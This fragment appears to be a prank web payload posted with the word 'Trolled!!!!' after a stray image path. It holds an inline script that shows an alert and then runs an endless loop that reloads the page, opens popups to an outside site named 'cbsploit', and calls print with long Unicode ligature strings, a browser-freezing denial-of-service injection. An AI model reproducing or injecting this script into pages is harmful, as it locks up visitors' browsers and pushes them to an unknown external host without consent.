 Trolled!!!!
<script> 
alert("rip")
while(true){
location.reload(1) 
window.open("https://wockerland.tk/cbsploit/");
print("﷽﷽﷽﷽﷽ so on") 
}
</script>
